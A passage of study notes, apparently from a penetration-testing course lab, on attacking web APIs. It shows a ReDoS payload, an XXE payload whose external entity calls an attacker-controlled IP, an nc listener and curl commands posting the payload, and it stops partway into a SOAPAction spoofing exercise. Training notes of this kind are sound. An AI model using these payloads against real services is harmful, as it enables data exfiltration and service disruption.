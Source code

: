   * Interacting with it gives us a regex ```/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/``` - we can use tools such as [regex101](https://regex101.com/) and [regulex](https://jex.im/regulex) to understand regex

  * The way the regex is structured from the visualization on ```regulex```, we can see the 2nd & 3rd part of regex doing bad iterative checks

  * If we submit a long payload like ```jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555.```, the API takes a lot of time and longer payloads increase evaluation time

* XML External Entity injection:

  * XXE injection occurs when malicious XML data can be injected as user input

  * For given API service, if we intercept the login attempt in Burp Suite, we can see XML data in the POST request

  * Based on XML data seen above, we can start by defining a DOCTYPE, in which a DTD (external, pointing to attacker machine) can be included:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.60:4444"> ]>
    <root>
    <email>test@test.com</email>
    <password>P@ssw0rd123</password>
    </root>
    ```
  
  * We can setup a listener using ```nc -nvlp 4444``` and attempt to use the crafted payload:

    ```sh
    curl -X POST http://10.129.202.133:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.60:4444"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
    # this does not work because the external entity has not been used yet

    curl -X POST http://10.129.202.133:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.60:4444"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
    # a connection is made to listener
    ```

## Skills Assessment

* We have a WSDL file for a SOAP service at <http://10.129.202.133:3002/wsdl?wsdl>

* From this, we can see 'username' and 'password' fields defined under the 'LoginRequest' type

* We also have a ```SOAPAction``` named 'Login' defined - we can try to do SOAPAction spoofing here

* Similar to the example above for 'ExecuteCommand' SOAPAction, we can craft a payload for the SOAP request for 'Login':
